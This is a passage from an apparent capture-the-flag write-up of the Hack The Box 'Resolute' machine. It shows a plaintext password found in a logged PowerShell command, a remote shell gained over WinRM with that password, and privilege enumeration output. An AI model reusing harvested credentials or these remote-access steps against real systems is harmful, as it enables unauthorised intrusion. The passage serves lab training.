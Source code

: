 Now I don't know if you noticed the juicy clue - but if you didn't, here it is:
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

So let's try and login as `ryan`:
```
kali@kali:~/htb/boxes/resolute/smb$ evil-winrm -i resolute.htb -u ryan -p 'Serv3r4Admin4cc123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
```
Sadly, `ryan` isn't really an admin. But we're getting closer.

### Priv: ryan -> root
On `ryan`'s desktop, there's a `note.txt`:
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

..which doesn't really tell us anything other than we have a tight window to do stuff if we make any system changes. But that's fine - we haven't really started enumerating `ryan`. Let's start with looking at `ryan`'s privileges:
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
```
